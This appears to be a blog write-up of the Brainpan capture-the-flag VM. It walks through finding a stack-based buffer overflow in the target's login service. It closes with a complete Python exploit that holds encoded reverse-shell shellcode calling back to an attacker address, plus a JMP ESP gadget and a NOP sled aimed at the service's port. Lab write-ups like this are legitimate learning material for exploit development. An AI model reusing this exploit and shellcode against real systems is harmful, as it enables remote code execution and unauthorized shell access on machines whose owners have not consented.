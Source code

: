 {{< figure class="center" src="http://4.bp.blogspot.com/-XGWNxG1FbCY/UVPCvoJc0LI/AAAAAAAAAbc/J-HSrap9_jw/s640/brainpan.jpg" >}}

It appeared that our password was `shitstorm`, following a strcpy of the incoming buffer.  I fired up the .exe in a VM to see what it did:

{{< figure class="center" src="http://4.bp.blogspot.com/-YnR2vlwbgIs/UVPDmWYEZWI/AAAAAAAAAbk/ZOLdSGpMovg/s640/brainpan_loaded.jpg" >}}

Looks like this is just a copy of the program that is running in the virtual machine, and according to my registers, vulnerable:

{{< figure class="center" src="http://3.bp.blogspot.com/-uR5L_LXkS8o/UVPEtg3qFXI/AAAAAAAAAbs/zgjG9FTKst0/s640/brainpan_asploded.jpg" >}}

So it appears we need to attach to the login form and see if we can get it to explode with shell execution.  I find it interesting that we were given a copy of the file as a exe instead of an ELF, considering what the host is running.

Exploiting this particular binary was not hard, but I ran into an issue that made it more difficult than it should've been.  This is a very straightforward stack-based buffer overflow, but continually my stack would get corrupted and shift by one or two bytes:

{{< figure class="center" src="http://2.bp.blogspot.com/-c19Y3eKE7cE/UVWx2YwTsrI/AAAAAAAAAb8/Rg-_YzDb8n4/s640/wat.jpg" >}}

To mitigate this, instead of my payload looking like this: `[524 bytes of junk | JMP ESP | NOPs | shellcode]`

I had to jump a little further back to take advantage of some extra instructions: `[520 bytes of junk | 4 NOP bytes | PUSH EBP; MOV EBP,ESP JMP ESP | NOPs | shellcode]`

This aligned my stack properly and allowed me to run a reverse shell.  Here's the exploit:

```
import socket

# msfpayload linux/x86/shell_reverse_tcp LHOST=192.168.1.74 LPORT=443 R | msfencode -e x86/shikata_ga_nai -t c
#[*] x86/shikata_ga_nai succeeded with size 95 (iteration=1)

shell = "\xdb\xc8\xbf\x12\xad\xd5\x16\xd9\x74\x24\xf4\x58\x29\xc9\xb1"\
        "\x12\x31\x78\x17\x03\x78\x17\x83\xfa\x51\x37\xe3\xcb\x72\x4f"\
        "\xef\x78\xc6\xe3\x9a\x7c\x41\xe2\xeb\xe6\x9c\x65\x98\xbf\xae"\
        "\x59\x52\xbf\x86\xdc\x95\xd7\xd8\xb7\x67\x6d\xb1\xc5\x67\x70"\
        "\xfa\x43\x86\xc2\x9a\x03\x18\x71\xd0\xa7\x13\x94\xdb\x28\x71"\
        "\x3e\xcb\x07\x05\xd6\x7b\x77\x8b\x4f\x12\x0e\xa8\xdd\xb9\x99"\
        "\xce\x51\x36\x57\x90";

try:
    payload = '\x41' * 520        #junk
    payload += '\x90'*4           #ebp
    payload += '\xf0\x12\x17\x31' #push ebp; mov ebp,esp; jmp esp
    payload += '\x90'*50          #nop sled
    payload += shell              #shellcode

    s = socket.socket()
    s.connect(('192.168.1.110', 9999))
    s.recv(1024)
    s.send(payload)
except Exception, e: print e
```
